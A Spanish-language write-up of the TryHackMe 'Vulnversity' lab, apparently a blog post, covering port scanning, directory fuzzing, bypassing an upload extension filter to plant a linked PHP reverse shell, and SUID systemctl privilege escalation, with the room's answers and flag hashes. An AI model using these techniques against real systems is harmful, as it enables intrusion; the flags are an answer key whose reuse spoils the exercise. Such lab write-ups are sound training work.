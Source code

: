 ```yaml
---
title: TryHackMe - Vulnversity
cover:
    image: "images/vulnversity-tryhackme/vulnversity.png"
categories: [Linux]
tags: [TryHackMe, eJPT, Linux]
---
```


Learn about active recon, web app attacks and privilege escalation.

## Tarea 1 

La tarea 1 simplemente es desplegar la máquina, por ende no debemos poner nada.


## Tarea 2 (Reconocimiento)

En esta sección nos proponen usar la herramienta Nmap para hacer un escaneo de puertos.

```
 nmap -sCV -p- --min-rate 5000 -Pn -n -oN escaneo 10.10.152.183
 Nmap scan report for 10.10.152.183
 Host is up (0.23s latency).
 Not shown: 65529 closed tcp ports (conn-refused)
 PORT     STATE SERVICE     VERSION
 21/tcp   open  ftp         vsftpd 3.0.3
 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
 |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
 |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
 445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
 3128/tcp open  http-proxy  Squid http proxy 3.5.12
 |_http-server-header: squid/3.5.12
 |_http-title: ERROR: The requested URL could not be retrieved
 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 |_http-title: Vuln University
 Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 
 Host script results:
 |_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
 | smb-os-discovery: 
 |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
 |   Computer name: vulnuniversity
 |   NetBIOS computer name: VULNUNIVERSITY\x00
 |   Domain name: \x00
 |   FQDN: vulnuniversity
 |_  System time: 2022-11-23T22:17:45-05:00
 | smb2-time: 
 |   date: 2022-11-24T03:17:45
 |_  start_date: N/A
 |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
 | smb2-security-mode: 
 |   3.1.1: 
 |_    Message signing enabled but not required
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
```

La máquina tiene abirtos los puertos 21(FTP), 22(SSH), 139(NETBIOS-SSN), 445(NETBIOS-SSN) 3128(HTTP-PROXY) y 3333(HTTP)

### Preguntas

1. There are many nmap "cheatsheets" online that you can use too. - ```No answer needed```
2. Scan the box, how many ports are open? - ```6```
3. What version of the squid proxy is running on the machine? - ```3.5.12```
4. How many ports will nmap scan if the flag -p-400 was used? - ```400```
5. Using the nmap flag -n what will it not resolve? - ```DNS```
6. What is the most likely operating system this machine is running? - ```Ubuntu```
7. What port is the web server running on? - ```3333```
8. It’s important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don’t forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background) - ```No answer needed```
___

## Tarea 3 (Locating directories)

```
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.152.183:3333/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.152.183:3333/FUZZ
Total requests: 220546

====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
====================================================================

000000002:   301        9 L      28 W       322 Ch      "images"                                                                                                               
000000536:   301        9 L      28 W       319 Ch      "css"                                                                                                                  
000000939:   301        9 L      28 W       318 Ch      "js"                                                                                                                   
000002757:   301        9 L      28 W       321 Ch      "fonts"                                                                                                                
000002970:   301        9 L      28 W       324 Ch      "internal"    
```

### Preguntas
1. What is the directory that has an upload form page? - ```/internal/```

## Tarea 4 (Compromise the webserver)

En la página ```http://10.10.152.183/internal``` tenemos una subida de archivos, intentemos subir un archivo de prueba.

![2022-11-24-01-04.png](https://i.postimg.cc/9F6SpQ3m/2022-11-24-01-04.png)

![2022-11-24-01-07.png](https://i.postimg.cc/dtGMgyjk/2022-11-24-01-07.png)

Como vemos nos dices  ```Extension not allowed ```, muy probablemente en el backend hay algún tipo de lista blanca que solo permita ciertas extensiones

Abriremos el BurpSuite y capturaremos la petición en la cual subimos el archivo, para luego mandarla al Intruder y desde ahí hacer un ataque de fuerza bruta a las diferentes extensiones que luego le coloquemos.

La explicacion de como hacerlo la voy a saltear ya que en el propio laboratorio explica como hacerlo.

![2022-11-24-01-22.png](https://i.postimg.cc/mgMQYbRG/2022-11-24-01-22.png)

Como vemos, la extensión ```.phtml``` está admitida porque la longitud de la respuesta es distinta, vamos a subir un [reverse shell](https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php) con extensión ```.phtml```.

Para eso pueden usar esa reverse shell que coloque ahí, la tienen que modificar poniendo su IP y el puerto que ustedes quieran.

![2022-11-24-01-39.png](https://i.postimg.cc/26DRkdFB/2022-11-24-01-39.png)

Al subir el archivo nos debe salir success, ahora tenemos que ver donde se almacenan los archivos que subimos, para eso vamos a hacer fuzzing en el directorio ```/internal```

```
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.152.183:3333/internal/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.152.183:3333/internal/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000150:   301        9 L      28 W       332 Ch      "uploads"    
```

Como observamos encontramos un directorio uploads, si entramos veremos que ahí esta subida nuestra reverse shell.

![2022-11-24-01-49.png](https://i.postimg.cc/vmHgT9YD/2022-11-24-01-49.png)

Nos pondremos en escucha por el puerto que le dedicamos a la reverse shell y le daremos clic.

![2022-11-24-01-56.png](https://i.postimg.cc/Px0Q1KJS/2022-11-24-01-56.png)

Luego de eso pondremos ```python3 -c 'import pty;pty.spawn("/bin/bash")'```

Si nos dirigimos al ```/home```, veremos que hay un usuario llamado ```bill```, nos meteremos a su directorio y listaremos la flag de user.

### Preguntas

1. What is the name of the user who manages the webserver? - ```bill```
2. What is the user flag? - ```8bd7992fbe8a6ad22a63361004cfcedb```

## Tarea 5 (Privilege Escalation)

Para escalar privilegios, vamos a buscar por permisos SUID.

```
find / -perm -4000 2>/dev/null

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Como vemos hay un programa SUID que normalmente no se suele ver, hablo del ```/bin/systemctl```, si lo buscamos en [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid) podemos ver que hay una forma de abusar de él para escalar nuestro privilegio.

## Preguntas 

1. On the system, search for all SUID files. What file stands out? - ```/bin/systemctl```
2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? - ```a58ff8579f0a9270368d33a9966c7fd5```
